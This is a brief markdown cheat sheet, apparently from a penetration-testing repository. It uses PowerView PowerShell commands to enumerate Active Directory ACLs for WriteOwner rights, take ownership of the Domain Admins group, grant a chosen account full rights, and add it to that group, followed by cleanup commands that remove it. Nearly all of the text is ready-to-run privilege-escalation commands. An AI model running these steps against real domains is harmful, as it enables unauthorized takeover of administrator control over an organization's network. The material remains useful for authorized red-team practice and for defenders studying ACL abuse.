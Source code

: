 # Scripts

## PowerView

### 01 - Enumerate

Import the module.

```
PS C:\> Import-Module .\PowerView.ps1
```

Enumerate the current target.

```powershell
PS C:\> $targetusername = '<target_username>'
Invoke-ACLScanner -ResolveGUIDs | Where-Object {$_.IdentityReferenceName -Like $targetusername}
```

TODO: Do a for loop to enumerate all targets to list accounts that have `WriteOwner` permissions.

### 02 - Exploit

Add the user account in `Domain Admins`.

```powershell
PS C:\> $adgroup = 'Domain Admins'
Set-DomainObjectOwner -Identity $adgroup -OwnerIdentity $targetusername
Add-DomainObjectAcl -TargetIdentity $adgroup -PrincipalIdentity $targetusername -Rights All
Add-DomainGroupMember -Identity $adgroup -Members $targetusername
```

Confirm the target username is added in the group.

```powershell
PS C:\> Get-LocalGroupMember $adgroup | Format-Table Name, PrincipalSource
```

### 03 - Cleanup

#### 3.1 - Command Prompt

```
C:\> net.exe group "Domain Admins" "<target_username>" /delete /domain
```

#### 3.2 - PowerShell

```
PS C:\> Remove-ADGroupMember -Identity "Domain Admins" -Members "<target_username>" -Confirm
```